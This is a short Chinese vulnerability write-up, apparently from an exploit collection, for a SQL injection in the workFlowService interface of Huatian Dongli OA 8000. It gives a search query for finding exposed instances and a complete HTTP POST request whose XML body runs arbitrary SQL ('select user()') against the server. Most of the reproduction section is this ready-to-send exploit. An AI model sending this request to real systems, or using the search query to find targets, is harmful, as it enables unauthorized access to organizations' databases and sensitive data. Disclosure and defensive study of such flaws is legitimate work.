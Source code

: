 # 

# 华天动力OA 8000版 workFlowService SQL注入漏洞

## 漏洞描述

华天动力OA 8000版 workFlowService接口存在SQL注入漏洞，攻击者通过漏洞可获取数据库敏感信息

## 漏洞影响

```
华天动力OA 8000版 
```

## 网络测绘

```
app="华天动力-OA8000"
```

## 漏洞复现

产品页面

![img](./images/1628496676017-abce1043-e1a9-4142-9481-555f1bf0821c.png)

发送请求包验证漏洞

```php
POST /OAapp/bfapp/buffalo/workFlowService HTTP/1.1
Host: 、
Accept-Encoding: identity
Content-Length: 103
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Referer: http://www.baidu.com
Cache-Control: max-age=0

<buffalo-call> 
<method>getDataListForTree</method> 
<string>select user()</string> 
</buffalo-call>
```

![img](./images/1628496737082-cede14dc-71ae-4ec3-83da-e0707e4f8f4f.png)
